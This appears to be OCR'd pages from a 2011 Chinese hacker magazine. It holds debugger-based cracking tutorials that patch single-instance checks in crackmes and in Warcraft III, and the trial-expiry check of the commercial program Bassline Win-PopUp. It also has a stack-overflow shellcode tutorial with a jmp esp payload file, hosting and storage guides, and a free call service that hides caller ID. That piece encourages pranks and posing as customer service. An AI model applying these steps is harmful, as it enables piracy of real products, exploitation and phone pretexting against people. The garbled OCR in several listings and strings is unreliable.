看完这个API以后我们就可以开始今天的第一个crackme了，运行，如图1，再运行一次，就会有如图2的提示，然后就自动退出，好的，现在我们把程序加载到OD中，对FindWindow函数下断，如图3，然后按F9让程序运行起来，接着程序就会被中断在FindWindow函数的入口点，中断后看堆栈：

```
0012FED0   00401010   /CALL 到 FindWindowW 来自 0040100A
0012FED4   00000000   |ClassName = 0
0012FED8   00402144   游戏名称 = "A1","B6"
客X档","B6","B8","A1","B7","B6"么拉到? By
Rejector


```
```
Command bp FindWindowW
```

图3

通过前几节课的学习，我们可以看到这里调用了FindWindow函数，参数lpClassName为0，也就是NULL，我们在前边讲API的时候就知道，当这个参数为NULL的时候，函数将会寻找任何与lpWindowName参数匹配的窗口，而这里的lpWindowName参数是指向00402144的字符串，这里是“《黑客X档案》多开限制实例 By Rejector”，我们按Ctrl+F9，让程序在函数返回后中断，然后就会看到如下代码：

```
00401000   /$  83EC 1C                 sub esp, 1C
00401003   |.  68 44214000             push 00402144                                       ;  /Title = "A1","B6"客X档","B6","B8","A1","B7","B6"么拉到? By Rejector"
00401008   |.  6A 00                   push 0                                              ; |Class = 0
0040100A   |.  E8 1FCA0000             call <jmp.&USER32.FindWindowW>                      ; \FindWindowW
0040100F   |.  85C0                    test eax, eax
00401012   |.  74 1C                   je short 00401030
00401014   |.  6A 00                   push 0                                              ; /Style = MB_OK|MB_APPLMODAL
00401016   |.  68 7C214000             push 0040217C                                       ; |Title = "提示"
```

```
0040101B  |.  68 84214000    push    00402184
; Text = "程序已运行"
00401020  |.  6A 00          push    0
; hOwner = NULL
00401022  |.  FF15 F8204000  call    dword ptr [<&USER32.MessageBoxW>; \MessageBoxW
00401028  |.  33C0           xor     eax, eax
0040102A  |.  83C4 1C        add     esp, 1C
0040102D  |.  C2 1000        retn    10


```

这段代码很好理解，首先调用FindWindow函数来检查是否存在一个窗口名为“《黑客X档案》多开限制实例 By Rejector”的窗口，00401010处通过得出的结果来比较，00401012处，通过比较的结果来跳转，如果不存在则跳走，如果存在则继续向下执行，弹出一个对话框提示你“程序已运行”，然后到0040102D处遇到一个retn指令返回退出。理解了流程以后就比较容易处理了，现在我们只要修改00401012处的跳转就可以，我们把je改为jmp，这样，无论是不是存在这个窗口就都不会提示“程序已运行”了，现在把我们修改后的文件保存下来，运行一下，如图4，破解成功！
下面我们再来看第二种方法，我们还是先看一个API。

```
HANDLE CreateMutex(
  LPSECURITY_ATTRIBUTES lpMutexAttributes;
  BOOL bInitialOwner,
  LPCTSTR lpName
);
```

CreateMutex函数可用来创建一个有名或无名的互斥量对象，用来找出当前系统是否已经存在指定进程的实例，如果没有则创建一个互斥体，如函数执行成功，就返回互斥体对象的句柄如果出错，则返回NULL。我们看来参数信息。

- lpMutexAttributes，指向安全属性的指针，传递零值表示使用不允许继承的默认描述符。
- bInitialOwner Long，初始化互斥对象的所有者。
- lpName，指向互斥对象名的指针。

还有些API，比如CreateEvent，还有OpenMutex什么的，效果和CreateMutex基本相同。

运行今天的第二个CrackMe看看，如图5，运行第二次后就如图6了，OD加载之，输入命令“bp CreateMutexW”对CreateMutex函数下一个断点，按F9运行之，然后程序就会中断在CreateMutex函数的入口处，我们还是看堆栈：

```
0012FEC8   00401013   /CALL 到 CreateMutexW 来自 多开限制.0040100D
0012FECC   00000000   lpSecurity = NULL
0012FED0   00000000   |InitialOwner = FALSE
0012FED4   00402154   \MutexName = "mutex"


```
看看刚才对参数的解释，很容易理解这里，按Ctrl+F9让它运行到返回，然后就可以看到这样的代码：

```
00401000  /$  83EC 1C        sub     esp, 1C
00401003  |.  56             push    esi
00401004  |.  68 54214000    push    00402154
; /MutexName = "mutex"
00401009  |.  6A 00          push    0
; |InitialOwner = FALSE
0040100B  |.  6A 00          push    0
; |pSecurity = NULL
0040100D  |.  FF15 48204000  call    dword ptr [<&KERNEL32.CreateMutex>; \CreateMutexW
00401013  |.  8BF0           mov     esi, eax
00401015  |.  FF15 20204000  call    dword ptr [<&KERNEL32.GetLastError>; [GetLastError
0040101B  |.  3D B7000000    cmp     eax, 0B7
00401020  |.  75 24          jnz     short 00401046
```

```
00401022  |.  56            push    esi
;hObject
00401023  |.  FF15 08204000 call    dword ptr [<&KERNEL32.CloseHandle>]; CloseHandle
00401029  |.  6A 00         push    0
;Style = MB_OK|MB_APPLMODAL
0040102B  |.  68 60214000   push    00402160
;Title = "提示"
00401030  |.  68 68214000   push    00402168
;Text = "实例2已运行"
00401035  |.  6A 00         push    0
;howner = NULL
00401037  |.  FF15 00214000 call    dword ptr [<&USER32.MessageBoxW>]; MessageBoxW
0040103D  |.  33C0          xor     eax, eax
0040103F  |.  5E            pop     esi
00401040  |.  83C4 1C       add     esp, 1C
00401043  |.  C2 1000       retn    10


```

这段代码也是比较好理解的，首先调用CreateMutex来创建一个互斥对象，再调用GetLastError来获取最后一次出错的错误代码，0040101B处拿0xB7（0xB7是CreateMutex的错误代码）和最后一次出错的错误代码比较，看看刚才的执行的CreateMutex有没有出错，00401020处来进行选择性跳转，如果最后一次出错的错误代码不是0xB7，则跳走，如果最后一次出错的错误代码是0xB7则继续向下执行代码，调用MessageBox函数弹出对话框提示"实例2已运行"，然后到00401043处的retn指令退出。
这样的话我们只要修改00401020处的选择性跳转，把jnz改为jmp就可以突破了，双击这一句，在弹出的对话框中输入jmp short 00401046，然后点汇编，如图7，保存修改后的文件后运行，如图8，破解成功。
在前几节课有读者反应说讲CrackMe太单调，想让rejector来讲一些破解实例，现在我们拿出一个真正的软件来破解试试，以魔兽争霸为例来试试，其实rejector是不会打魔兽的，作为一个超级淑女，怎么可以整天打打杀杀，但是为了讲课，没办法呀，大家理解一下！！
打开魔兽后，如果再打开一个，就会提示“魔兽争霸III已经运行”，如图9，那我们载入OD来进行分析，在这里我要说明一下，破解一个软件，要懂得利用你所学过的所有知识，不要有局限性，现在我们看到他弹出了一个对话框，那我们就对MessageBox函数下断，然后按F9运行，中断后按Alt+F9让OD返回用户代码，然后我们就可以看到这里，如图10，我们向上看几句，在0040105F处下个断点，按Ctrl+F2让OD重新加载，再按F9运行，就可以中断在这里，中断后的代码如下：

```
0040105F  |.  68 48804000   push    00408048
;ASCII "Warcraft III Game Application"
00401064  |.  6A 00         push    0
00401066  |.  6A 00         push    0
00401068  |.  6A 00         push    0
0040106A  |.  FFD3          call    ebx
0040106C  |.  894424 10     mov     dword ptr [esp+10], eax
00401070  |.  FFD5          call    ebp
00401072  |.  3D B7000000   cmp     eax, 0B7
00401077  |.  75 5F         jnz     short


```

# 主题乐园

2011合订本上卷
图10
图11

这里我们可以看到，程序调用了两个函数，分别是ebx和ebp，我们看看寄存器窗口，如图11，ebx和ebp分析指向两个API，CreateEvent和GetLastError，那么这里就是使用互斥对象来实现多开的，我们看到00401077处是一个选择性跳转，我们只要把这里改为jmp short 004010D8就可以，修改后保存文件，运行一下，结果如图12，还有问题，我们顺着刚才的代码继续向后跟踪，
图12

然后发现了这里的代码：

```assembly
004012B9   |.  50            |push    eax                                 ; /pProcessInfo
004012BA   |.  F3:AA         |rep     movs byte ptr es:[edi],byte ptr ds:[esi]
004012BC   |.  8D8C24 4C030000|lea     ecx,dword ptr [esp+34C]
004012C3   |.  8D9424 48020000|lea     edx,dword ptr [esp+248]
004012CA   |.  51            |push    ecx                                 ; |StartupInfo
004012CB   |.  6A 00         |push    0                                   ; |CurrentDir = NULL
```

```assembly
004012CD   |.  6A 00         |push    0                                   ; |pEnvironment = NULL
004012CF   |.  6A 00         |push    0                                   ; |CreationFlags = 0
004012D1   |.  6A 01         |push    1                                   ; |InheritHandles = TRUE
004012D3   |.  6A 00         |push    0                                   ; |pThreadSecurity = NULL
004012D5   |.  6A 00         |push    0                                   ; |pProcessSecurity = NULL
004012D7   |.  52            |push    edx                                 ; |CommandLine
004012D8   |.  6A 00         |push    0                                   ; |ModuleFileName = NULL
004012DA   |.  FF15 60704000 |call    dword ptr [<&KERNEL32.CreatePro>; \CreateProcessA
```

看看堆栈里的数据

```assembly
0012F83C   004012E0   /CALL 到 CreateProcessA 来自 Frozen_T_004012DA
0012F840   00000000   |ModuleFileName = NULL
0012F844   0012FAAC   |CommandLine = """e:\\war3\\war3.exe"""
0012F848   00000000   |pProcessSecurity = NULL
0012F84C   00000000   |pThreadSecurity = NULL
0012F850   00000001   |InheritHandles = TRUE
0012F854   00000000   |CreationFlags = 0
0012F858   00000000   |pEnvironment = NULL
0012F85C   00000000   |CurrentDir = NULL
0012F860   0012FBB0   |pStartupInfo = 0012FBB0
0012F864   0012F88C   \pProcessInfo = 0012F88C
```

这里来创建一个进程，我们发现当程序执行这个函数的时候就会弹出刚才的提示，那我们就直接来分析war3.exe好了，用OD加载同目录下的war3.exe。

114

一路F8过来，然后就看到了这里的代码

```assembly
00401216  |.> \56            push    esi
00401217  |.  FFD0          call    eax
; Game:GameMain
```

这里调用了模块的GameMain函数，我们再跟进去看看，依然一路F8过去，遇到6F005FF9处的Call，又弹出这个提示了，Ctrl+F9再来一次，到了这一句以后，F7跟进去，然后就有看到这样的代码：

```assembly
6F006020   .  B9 94757E6F   mov     ecx, 6F7E7594                           ; ASCII "Warcraft
III Game Application"
6F006025   .  E8 AA4E0000   call    <jmp.&Maps\4470_HJ>
6F00602A   .  85C0          test    eax, eax
6F00602C   .  74 0F         je      short 6F00603D
6F00602E   .  E8 1D300000   call    6F009050
6F006033   .  33C9          xor     ecx, ecx
6F006035   .  E8 96FEFFFF   call    6F005ED0
6F00603A   .  33C0          xor     eax, eax
6F00603C   .  C3            retn


```
图13

这里，终于看到曙光了，把这里的je再改为JMP，保存后运行试试，如图13，万无一失了！

## 破解零起步 (六)        时间限制突破

rejector

这眼睛一睁一闭都六月了，哎！杭州这破天气，热死个人呀，学校还不给装空调，还让不让人活了呀！rejector老师冒着会中暑的危险来给同学们上课，走进教师就看到小吉利已经趴在桌子上睡着了，白糖在一边傻傻地舔冰棍！

上节课说的是对多开限制的突破，这节课我们再来看对于时间限制的突破！

还是先来看几个API吧。
图1
图2

- GetFileTime
  得文件建立，最后访问，修改时间
- GetLocalTime
  得当前本地时间
- GetSystemTime
  得当前系统时间
- GetTickCount
  得windows启动至现时毫秒

我们直接来看看我们的第一个CrackMe，运行一下，可以看到CrackMe提示说“程序将在运行10秒后自动关闭”，如图1，然后过了10秒，程序就真的关闭了，现在我们用OD加载这个CrackMe，然后在OD的命令行插件里输入命令“BP GetTickCount”后回车来下一个断点，如图2，然后直接按F9让程序运行起来，然后OD就中断在如图3所示的地方了，我们按Ctrl F9让OD执行到返回，然后我们就可以看到如下代码：

```assembly
00401049  >/$  55            push    ebp
0040104A  |.  8BEC          mov     ebp, esp
0040104C  |.  51            push    ecx
0040104D  |.  53            push    ebx
0040104E  |.  8B5D 08       mov     ebx, [ebp+8]
00401051  |.  56            push    esi
00401052  |.  57            push    edi
00401053  |.  8BF3          mov     esi, ebx
00401055  |.  33C0          xor     eax, eax
00401057  |.  55            push    ebp
00401058  |.  68 0A104000   push    0040100A
0040105D  |.  64:FF30       push    dword ptr fs:[eax]
00401060  |.  64:8920       mov     dword ptr fs:[eax], esp
00401063  |.  8D45 FC       lea     eax, [local.1]
00401066  |.  E8 D5FEFFFF   call    <jmp.&kernel32.GetTickCount>
```

# 主题乐园

# 2011合订本上卷

```assembly
00401051    2B0D 74334000    sub    ecx,
 dword ptr [403374]            ; 获取软件运行
的毫秒数
00401057    B8 D34D6210    mov    eax,
10624DD3
0040105C    F7E1           mul    ecx
0040105E    C1EA 06        shr    edx, 6
; 除以1000
00401061    83FA 0A        cmp    edx, 0A
; 和10比较
00401064    8915 70334000  mov    dword
ptr [403370], edx
0040106A    75 08          jnz    short 00
401074                        ; 不等于10就跳走
0040106C    6A 00          push   0
; /ExitCode = 0
0040106E    FF15 04204000  call   dword
ptr [<&KERNEL32.ExitProcess>]  ; \ExitProcess


```
这段代码很简单，首先调用GetTickCount函数来获取操作系统启动到现在所经过的毫秒数，再减去内存403374处的数据，这里储存的是软件开始时调用GetTickCount函数获取的操作系统启动所经过的毫秒数，做完减法以后的结果就是从软件运行到当前所经历的毫秒数，然后除以1000，就是把毫秒数转化为秒数，然后和10比较，如果不是10就跳走，如果是10就调用ExitProcess函数来退出进程，既然这样的话，那我们只要修改0040106A处的选择跳转就可以了，我们不希望程序调用ExitProcess函数，那我们就要让0040106A处的跳转必须实现，所以我们只要把jnz改为jmp就可以了；我们双击这一句代码，就会弹出反汇编窗口，我们把这里的代码改为jmp short 00401074，如图4，然后点“汇编”按钮，再点“取消”；然后在汇编窗口中点鼠标右键，选择“复制到可执行文件”——“所有修改”，如图5，然后会有提示“要把选中的内容复制到可执行文件中么？”，这里选择“全部复制”，如图6，接着就会弹出

一个窗口，在弹出的窗口中再点鼠标右键，选择“保存文件”，如图7，然后我们运行一下保存后的文件看看，如图8，可以看到运行的时候已经超过了12秒，但程序还是没有结束，破解成功了！
下面我们再来看一个实例，这个软件叫Bassline Win-PopUp，我们行动，看可以看到如图9的提示，说“You have 50 days to evaluate this software!Would see the registration information in WWW?”，意思就
# 2011合订本上卷

# 主题乐园
图8

是说这个软件我们只能用50天，问我们是不是要注册！按“确定”后界面如图10，我们把系统时间往后调若干天，然后重启软件，可以看到如图11的提示，说“This program has expired! Would see the registration information in WWW?”意思是说软件已经过期了。
图9
我们用OD加载软件，对前面所说的几个API都下个断点，然后按F9让程序在OD中运行起来，然后程序就会被中断在GetLocalTime函数处，如图12，按Ctrl + F9执行到返回，然后一路F8来跟踪，当OD执行到00402692处的时候弹出了提示框，这里是一句call

图11

Ctrl + F9执行到返回，然后一路F8来跟踪，当OD执行到00402692处的时候弹出了提示框，这里是一句call
图10
图12

```assembly
00402692    E8 E8060500    call    00452D7F
```

在这一句按F2下断，然后Ctrl + F2重新加载程序，F9运行，当中断到刚才这句的时候我们按F7跟进去，我们可以看到这个call里的代码如下：

```assembly
00452D7F   /$  56            push    esi
00452D80   |.  57            push    edi
00452D81   |.  8B7C24 10     mov     edi, dword ptr [esp+10]
00452D85   |.  8BF1          mov     esi, ecx
00452D87   |.  85FF          test    edi, edi
00452D89   |.  75 08         jnz     short 00452D93
00452D8B   |.  E8 978D0000   call    0045BB27
00452D90   |.  8B78 10       mov     edi, dword ptr [eax+10]
00452D93   |>  E8 A8AA0000   call    0045B840
00452D98   |.  85F6          test    esi, esi
00452D9A   |.  75 04         jnz     short 00452DA0
00452D9C   |.  33C0          xor     eax, eax
00452D9E   |.  EB 03         jmp     short 00452DA3
00452DA0   |>  8B46 1C       mov     eax, dword ptr [esi+1C]
00452DA3   |>  FF7424 14     push    dword ptr [esp+14]               ; /Style
00452DA7   |.  57            push    edi                              ; |Title
00452DA8   |.  FF7424 14     push    dword ptr [esp+14]               ; |Text
00452DAC   |.  50            push    eax                              ; |hOwner
00452DAD   |.  FF15 3CC64600 call    dword ptr [<&USER32.MessageBoxA>] ; \MessageBoxA
00452DB3   |.  5F            pop     edi
00452DB4   |.  5E            pop     esi
```


# 主题乐园

### 2011合订本上卷

```
00452DB5  \  C2 0C00    retn 0C
```

这段的代码用来格式化字符串，然后弹出提示，我们再往刚才那句call上边看几句，就会注意到这样的代码：

```
00402615  > B9 32000000    mov    ecx, 32
; 32是50的16进制
0040261A   . 2BCF           sub    ecx, edi
; 这里用50减去使用天数，结果是剩余天数
0040261C   . 898E 78030000  mov    dword ptr [esi+378], ecx  ; 保存结果
00402622   . 8D4C24 2C      lea    ecx, dword ptr [esp+2C]
00402626   . E8 58FC0300    call   00442283
0040262B   . 8B86 78030000  mov    eax, dword ptr [esi+378]  ; 取出结果
```

```
00402631    C64424 24 01    mov    byte ptr [esp+24], 1
00402636    3BC3            cmp    eax, ebx
结果和ebx比较
00402638    70 10           jge    short 0040264A
剩余天数是不是大于等于0，是则跳走


```

我们可以看到这里的代码就是用来判断的了，我们看这里最后一句的选择跳转语句，只有天数大于等于0的时候软件才可以用，所以我们必须要使这里的跳转实现，这样的话我们只要把这一句修改为绝对跳转jmp就可以了，修改后保存，然后运行一次，结果如图13，他提示我们还有-134可用。
# 菜鸟也学溢出（六）
shellcode编写
rejector

前面我们简单的讲了一下溢出的原理，在前面的试验中我们向进程植入了一段代码，这段代码我们就可以称它为Shellcode。

Shellcode编写技术实际是一段代码（也可以是填充数据），是用来发送到服务器利用特定漏洞的代码，一般可以获取权限。另外，Shellcode一般是作为数据发送给受攻击服务的。Shellcode是溢出程序和蠕虫病毒的核心，提到它自然就会和漏洞联想在一起，毕竟Shellcode只对没有打补丁的主机有用武之地。漏洞利用中最关键的是Shellcode的编写。由于漏洞发现者在漏洞发现之初并不会给出完整Shellcode，因此掌握Shellcode编写技术就显得尤为重要。

了解了这些以后我们先来一个简单的shellcode，一般来说Shellcode都是用汇编语言编写的，然后转化成二进制机器码，还会受到很多限制，导致开发Shellcode的难度很高。

我们还记得上节课说过，溢出的关键就在说控制EIP寄存器，EIP寄存器指向下一句即将执行的代码，正常情况下，函数返回时会遇到retn指令，等于pop eip，这时会从栈里弹出一个数据放到EIP寄存器里，在这里，因为溢出，栈里的数据都被我们修改了，我们就可以自己任意定义EIP寄存器的值，但是当时我们把返回地址修改为一个固定地址，这里就是Shellcode在内存中的地址，最后让EIP寄存器就会被修改为这个地址，但是在真正的漏洞利用过程中，因为很多原因，Shellcode的地址不是固定的，是动态变化着的，这样我们就不能在程序运行前预知Shellcode的地址，这时我们可以从系统DLL中搜索一句代码“jmp esp”，这里的代码地址一般来说是不会变的，把返回地址改写成“jmp esp”的地址，然后在后面写上我们的Shellcode，这样，执行完retn指令以后EIP就会指向“jmp esp”的地址，然后就会跳去执行“jmp esp”，而堆栈指针ESP会往下走，这时EIP会指向esp，指向ShellCode的开始，程序继续执行，就正好就跳到我们的ShellCode的地方了。

OD有一个插件叫做OllyUni可以查找内存里的各种指令的地址，如图1，这样我们先来看看这样的Shellcode。

```
"\x33\xDB"    XOR EBX,EBX


```

468
图1

```
"\x53"              PUSH EBX
"\x68\x73\x74\x6f\x72" PUSH 73746F72
"\x68\x72\x65\x6a\x65" PUSH 72656A65
"\x8B\xC4"           MOV EAX,ESP
"\x53"              PUSH EBX
"\x50"              PUSH EAX
"\x50"              PUSH EAX
"\x53"              PUSH EBX
"\xB8\xEA\x04\xD8\x77" MOV EAX,user32.MessageBoxA
"\xFF\xD0"           CALL EAX
"\x53"              PUSH EBX ;//ExitCode
"\xB8\xDA\xCD\x81\x7C" MOV EAX,kernel32.ExitProcess
"\xFF\xD0"           CALL EAX ;//ExitProcess
```

还是用主节课的溢出代码：

```c
#include <stdio.h>
#include <windows.h>
int main()
{
    char buffer[0x30];
    FILE *fp;
    fp = fopen("rejector.txt", "r");
    fscanf(fp, "%s", buffer);
    fclose(fp);
    return 0;
}
```

我们把这些机器码按照16进制的方式写入“rejector.txt”文件，并且把返回地址对应的位置修改为刚才在OD中查找到的地址“75FF63E8”，如图2，保存后，运行一下程序，如图3，可以看到，成功弹出一个对话框，如图4，这说明我们的溢出代码被执行了！

```
Command
72055EEF Location found: call esp in MSUBUMM0.rsrc
72064D03 Location found: jmp esp in MSUBUMM0.rsrc
720651AB Location found: jmp esp in MSUBUMM0.rsrc
7206811F Location found: jmp esp in MSUBUMM0.rsrc
720683CF Location found: jmp esp in MSUBUMM0.rsrc
72072863 Location found: jmp esp in MSUBUMM0.rsrc
72072C0F Location found: jmp esp in MSUBUMM0.rsrc
72072A2F Location found: call esp in MSUBUMM0.rsrc
720782BF Location found: jmp esp in KERNELBASE.rsrc
7504D580 Location found: call esp in KERNELBASE.rsrc
7504DB21 Location found: call esp in KERNELBASE.rsrc
750B339D Location found: call esp in GD132.text
750B68BD Location found: call esp in GD132.text
750D778B Location found: call esp in GD132.text
75E52119 Location found: jmp esp in USP10.text
75ED7CE4 Location found: jmp esp in OLEAUT32.text
75F0E24C Location found: jmp esp in OLEAUT32.text
75F63B0B Location found: jmp esp in ADUAPI32.text
75F68D43 Location found: jmp esp in ADUAPI32.text
75F652A3 Location found: call esp in ADUAPI32.text
75FA9D23 Location found: jmp esp in ADUAPI32.text
75FA9E33 Location found: jmp esp in ADUAPI32.text
75FC4262 Location found: jmp esp in ADUAPI32.text
75FC90B3 Location found: jmp esp in ADUAPI32.text
75FD7777 Location found: call esp in ADUAPI32.rsrc
75FE2F4B Location found: call esp in ADUAPI32.rsrc
75FF63E8 Location found: jmp esp in ADUAPI32.rsrc
76226D53 Location found: jmp esp in USER32.text
76226B8 Location found: jmp esp in USER32.text
7627E4F7 Location found: jmp esp in USER32.rsrc
7627667B Location found: jmp esp in USER32.rsrc
7627B687 Location found: call esp in USER32.rsrc
7627B2BF Location found: jmp esp in USER32.rsrc
7627D6F7 Location found: call esp in USER32.rsrc
7627D7F2 Location found: jmp esp in USER32.rsrc
7627D9DB Location found: jmp esp in USER32.rsrc
7627DB0F Location found: jmp esp in USER32.rsrc
```

图2

```
00000000: 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 : 4321432143214321
00000010: 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 : 4321432143214321
00000020: 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 : 4321432143214321
00000030: 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 : 4321432143214321
00000040: 68 72 65 6a 65 6b 8B C4 53 50 50 53 B8 EA 04 D8 : hrejek..SPPS....
00000050: FF D0 53 B8 DA CD 81 7C FF D0 90 90 90 E8 : ..S....|......


```

图3
图4

## 寂寞梧桐

### 堪比收费空间的免费空间 000webhost

光午休

000webhost是Hosting24旗下的网站，自称比收费虚拟主机更好的免费空间，2007年开站至今他的口碑也确实不错。免费提供1500M空间，100G月流量，FTP、Web方式上传管理文件，支持PHP5，提供2个MySQL数据库，功能强大的cPanel管理面板，自带的Website Builder可一键安装WordPress、phpBB2、Drupal、Joomla等几种热门PHP程序，免费提供1个二级域名，可以绑定自己的域名，速度不错，无广告。这个空间是笔者迄今为止用过的最稳定最快速的空间了，非常适合架设自己的WP博客，因此推荐给大家。但这个空间目前在中国很难申请，本文就简单介绍一下笔者成功申请该空间的经验。

打开网站www.000webhost.com后，再点击右侧的SIGN UP按钮，填写相关信息，E-mail不推荐用QQ邮箱，推荐Gmail。如图1。
上一步完成后，你会发现你的账户一直处于Verification in progress的状态。这是因为中国大陆申请的人太多了，来自China的IP被列为低优先级的IP，因此如果你有自己的VPN或者个人专用的代理服务器（比如GApProxy搭建的），笔者也推荐你用代理来申请，很快就能通过，但这会带来其它问题，过会我会说到。

账户一直处于审核状态该怎么办呢？点击页面上方的GET HELP，再点击Submit new ticket，点击“please select the domain”下面的选择框，选择自己的域名。在下面的第一个框填上自己的题目：“I need your help to active my account”，然后在第二个框里写上一些东西让客服知道你的目的就行，我是这么写的：“I really love your services.I agree to terms of service and my webspace will be a personal blog using Wordpress.Can you active the account? Thank you.” 大家记住，只要写几句简单的话但要确保语法正确，不要用在线翻译工具，最好能赞美下他们的服务。如图2。
这样的成功率很高，过几个小时（考虑时差为6到8个小时），你就会收到他们客服的E-mail提醒你已经启用了你的账户。此时你的域名显示为setup in progress，正在安装你的系统。再等24小时基本上就安装完成了，此时就可以看见Goto CPanel的选项，点击就进入CPanel设置FTP
2011合订本上卷

470

## 寂寞梧桐

和MySQL并且按需要上传你的Wordpress等等了（这部分内容建议参考以前的黑客X档案，有非常详细的教程）。这个Control Panel提供的服务非常丰富，如图3。笔者架设好的WP是http://hq1993.comyr.com，大家可以访问一下试试速度。如图4。
接着回过来讲讲用代理服务器申请会遇到的问题。首先网页代理肯定是不行的，因为全中国就这么几个，用的人太多了，无法通过，所以要使用个人的VPN或者其它代理（GAP等），这样很容易完成账户的验证，但一旦你下次登录时忘记挂代理，它会封锁你的帐号，此时千万不要挂代理重新登陆，只需要点击Update my IP address，很快你就会收到一份邮件，如图5，点击里面的长链接更新你的IP就可以了。代理是很方便的做法，唯一的不一定是，有一定的可能将你的域名分配到已经被墙的服务器上，相信叉子们一定不愿意自己写个博客都要翻墙吧，因此，具体使用什么方法，各位就看者办啦！
### SugarSync
#### ——基于云计算的免费5G网盘

光午休

SugarSync是来自美国加利福尼亚州的Sharpcast网络存储公司的产品，提供了5.5G免费网络硬盘空间（可以通过推荐朋友注册可以增大自己的免费空间），具有数据自动备份、同步、分享等功能，可以非常方便的将你指定的目录同步到你的SugarSync网盘中。相信了解DropBox或SyncPlicity的朋友都知道这类工具的作用了。与大名鼎鼎的Dropbox不同的是，SugarSync可以在不使用代理服务器的情况下直接上传下载（也就是说，它没有被“墙”），这样一来，备份数据就比Dropbox快而且方便了。SugarSync和DropBox一样之处就在于，当你编辑文件或者改变了目录文件结构时，所有改动将会自动备份到网络上去。

SugarSync 的存储空间非常稳定可靠、安全，并具有一定的文件分享功能。

注册过程非常简单，只要三步。首先访问http://tinyurl.com/sugarsync2011，填写必要的信息（如图1），邮箱可以使用QQ邮箱，但务必有效以激活账户。第二步选择免费服务（如图2），继续会提示下载适合自己平台的同步软件（如图3），并且会向你的邮箱发送一封确认邮件；确认后即完成注册，这样就可以用你的账户登录了（如图4）。申请成功后，你还会获得一个yourname.sugarsync.com格式的个人域名，你可以使用这个域名登录，在线管理你同步的文件，这样就实现了在任何一台能接入互联网的电脑上方便存取重要文件（如图5）。
值得一提的是，SugarSync在某些地区注册是需要翻墙访问的，但在使用客户端上传和下载文件时并不需要设置代理（这与Dropbox不同）。因此，如果注册时发现网页打不开，不妨翻阅以前的黑客X档案，傻瓜黑客栏目中笔者有不少文章介绍翻墙的方法。

## 寂寞梧桐

### 2011合订本上卷
接下来安装它的同步软件——SugarSync，它不支持Linux之外，但支持Windows/Mac PC/iPhone/itouch/Black-Berry/Windows Mobile/Android几乎任何平台的所有设备进行访问。笔者正在同时使用PC端Android版和itouch版，PC端的功能非常强大，itouch版的非常华丽而实用（可以方便地将手机的照片同步到SugarSync上去，也能下载SugarSync上的文件或者通过邮件发送给朋友，这不是DropBox做得到的）SugarSync安装非常简单，一路下一步即可（如图6）。

安装完成后就可以使用激活的账户登录，简单设置同步文件夹，SugarSync就会在后台自动上传文件。笔者现在用SugarSync 同步自己的照片、程序源代码、稿子、PPT作品和QQ聊天记录（如图7）。配合Dropbox共同使用，笔者从不担心硬盘坏了文件丢失，有了SugarSync，文件存取变得安全而快捷，而且在不同的电脑上都能随时拿到需要的东西，这便是云计算的魅力所在（如图8）。
如果大家对申请和使用SugarSync有任何疑问，欢迎到我在X论坛上的小组中讨论：http://www.hackerxfiles.net/forum.php?mod=group&fid=88。

### 隐蔽拨打免费长途电话

wtbhk

近日闲逛又发现一款网络免费电话，激动不已，与诸共享。

这次的主角是遨通网（http://www.665.cn/），一个P1A价格情报网购平台，可能是营销推广吧，推出了这个免费电话功能。笔者试用三个月没扣一分钱，大可放心。

打开遨通网，注册帐号一枚。注册过程中要填的邀请人，如果看得起我就写上wtbhk吧，嘿嘿。后面的内容都简单，填着走就是了。注意手机号码务必真实，后面绑定要用到，我们这不打电话来的嘛。

注册好后点击“会员中心”。其他的不用管，直接找到左面导航栏，下面第三栏“话务管理”，“设置绑定号码”（如图1）。点“获取验证码”，刚注册填的手机号会收到短信，照着填上去提交即可（这一步是不会扣费的，移动没这么弱智）。
图1

绑定成功后可以看到“账户基本信息”里，显示已经赠送5元话费（是在遨通网上的虚拟话费），笔者的信息（如图2）。下面有说明“注册送50元话费，话费分10个月送，每月送5元，从注册日期开始计算”再看遨通网话费计算（如图3），不论长短途，最贵也才一分钟一毛钱。掐指一算，5个月下来送50元话费总共正好500分钟，果然生猛！

打电话三种方式可供选择：

- 1. 网页上拨打：“话务管理”里面的“在线拨打号码”即是。填好被叫号码，点拨打即可。
- 2. 手机拨打：需要iPhone的手机下载Fring软件连上遨通网。正用低端Nokia的笔者表示压力很大。
- 3. wap网页拨打：和电脑上网页拨打差不多。wap地址为http://wap.665.cn/。登录后照着流程走就是，很简单的。

隐藏来电从何说起？我们来看看拨打电话的流程，网页拨打和wap网页拨打时（手机拨打没试过- -），提交后遨通网会先拨“回铃电话”，即注册时填的自己的号码。这时掏出手机接电话，会听到“转接中”的提示，紧接着遨通网会再拨“被叫电话”，即你要拨打的电话，对方接通后就可以开始对话了。由于是遨通网主叫，己方和对方的电话均属被叫，不会扣费。移动要扣的是遨通网，遨通网扣我们在网站上的虚拟话费，对方收到的来电显示也并不是己方的电话号码，而是遨通网的。笔者测试中发现，大多数情况下来电显示为空号码，什么都没有，即使有时会显示也只显示些看不懂的很长的号码。
图2

| 软件拨打 | 网页拨打 | 手机WAP拨打 |
| --- | --- | --- |
| 0.06元/分 | 0.10元/分 | 0.10元/分 |

图3

免费电话，通话质量确实要比正常的通话低些，但几乎不影响使用。想整人或者伪装成客服搞搞社工什么的还不赶快行动！

### 免费搞定系统瘫痪，搞定大容量！

车晓东

大家都应该还记得上世纪末3.5英寸的软驱在启动系统及存储文件所立下的汗马功劳吧？但时过境迁，即使是后来居上的光驱也仍免不了走上了越来越“鸡肋”的尴尬之路，很多的新机器都放弃了光驱而将位置留给了更为先进的USB移动U盘和SSD固态硬盘。现在的U盘主流容量是4GB甚至是8GB，如此充裕的空间如果只是用来存储些办公文件倒显得也太“屈才”了；其实，我们完全可以将U盘做成可以启动和安装操作系统的工具盘——进行免光驱安装系统，而所使用的软件也非常简单，那就是“大白菜”！
